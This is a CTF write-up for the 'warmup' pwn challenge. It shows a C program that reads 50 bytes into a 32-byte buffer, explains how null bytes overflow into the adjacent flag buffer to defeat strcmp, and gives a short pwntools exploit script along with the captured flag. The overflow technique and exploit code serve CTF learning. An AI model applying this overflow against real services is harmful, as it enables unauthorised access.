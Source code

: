 # warmup
category: pwn | 316 points | 17 solves | author: main

## Description
Just a warmup. `nc challs.sieberrsec.tech 3476`

```c
#include <stdio.h>
int main() {
    char input[32];
    char flag[32];
    // read flag file
    FILE *f = fopen("flag", "r");
    fgets(flag, 32, f);
    fclose(f);
    // read the user's guess
    fgets(input, 0x32, stdin);
    // if user's guess matches the flag
    if (!strcmp(flag,input)) {
        puts("Predicted!");
        system("cat flag");
    } else puts("Your flag was wrong :(");
}
```

N.B. please do not try to bruteforce the flag. Attempts at doing so will be taken as an attack on server infrastructure, and will leave you liable for disqualification.

## Solution
This is a chall I didn't originally manage to get. 

```c 
    char input[32];
    char flag[32];
```
the input is declared as 32 bytes, and the flag is declared immediately after. 

the second (free) hint is a link to <https://en.wikipedia.org/wiki/Null-terminated_string>.

> A common bug was to not allocate the additional space for the NUL, so it was written over adjacent memory

The length of the `input` buffer is 32 bytes, but the program reads `0x32` or 50 bytes. So you can overwrite the flag after sending 32 bytes. 

the program also uses `strcmp()`. 
> strcmp() checks for the occurrence of NULL character in string, so that it will termination the function. ([source](https://www.quora.com/Does-STRCMP-check-for-NULL))

The idea is 
```
| input (32 bytes) | flag (32 bytes) |

sending NULL + 31 bytes + NULL

| input (NULL + 31 bytes) | flag (NULL + 31) | 

strcmp() will only read until NULL, and not the rest.
```

a code like this would work 
```python
from pwn import *

context.log_level="debug"

p = remote("challs.sieberrsec.tech", 3476)

#a null byte is b"\x00"
p.sendline(b"\x00"*33)

p.interactive()
```
as long as you send between 33-48 NULL bytes. any shorter will not overwrite the flag and any further would overwrite too much. 

![warmup1.png](warmup1.png)

IRS{nU1L_t3rminat0r}

## comments
- Values are on the stack according to where they're declared
- However, sometimes compilers add some "buffer" in between values
- Thus, decompilers etc help
- 
^^thanks sean <br>
warmup chall with 17 solves very haha <br>
thanks sean i understand now 
